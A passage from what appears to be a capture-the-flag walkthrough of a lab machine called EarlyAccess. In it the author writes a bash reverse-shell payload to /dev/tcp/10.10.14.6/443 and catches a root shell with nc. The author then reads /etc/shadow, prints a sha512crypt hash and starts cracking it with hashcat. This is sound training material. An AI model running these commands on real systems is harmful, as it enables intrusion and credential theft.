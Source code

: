 
    drew@earlyaccess:/opt/docker-entrypoint.d$ ssh game-tester@172.19.0.3
    ...[snip]...
    game-tester@game-server:~$ ls -l /tmp/
    total 4
    -rw-r--r-- 1 root root    0 Aug 19 01:34 0xdf
    drwxr-xr-x 3 root root 4096 Jul  7 17:26 v8-compile-cache-0



#### Shell

I'll create a new payload that returns a reverse shell:



    drew@earlyaccess:/opt/docker-entrypoint.d$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > 0xdf.sh; chmod +x 0xdf.sh



I'll run it manually as game-tester to make sure it works, and I get a
connection and shell back at a listening `nc`.

I'll hang the game again, and wait for the SSH connection to die. Just
after it does, I get a connection and a shell as root:



    oxdf@hacky$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.110] 53652
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@game-server:/usr/src/app# 



## Shell as game-adm on EarlyAccess

### Enumeration

There's not much new in the container that I gain access to as root vs
as game-tester. But one of those is the `/etc/shadow` file. There's only
one user with a password hash in that file:



    root@game-server:/etc# cat shadow | grep -F '$' 
    game-adm:$6$zbRQg.JO7dBWcZ$DWEKGCPIilhzWjJ/N0WRp.FNArirqqzEMeHTaA8DAJjPdu8h52v0UZncJD8Df.0ncf6X2mjKYnH19RfGRneWX/:18822:0:99999:7:::



I'll remember from above that game-adm is a user on the host as well.

### Crack Hash

This hash format is sha512crypt, which is relatively slow to break.
Still, `hashcat` breaks it in 30 seconds with `rockyou.txt`:
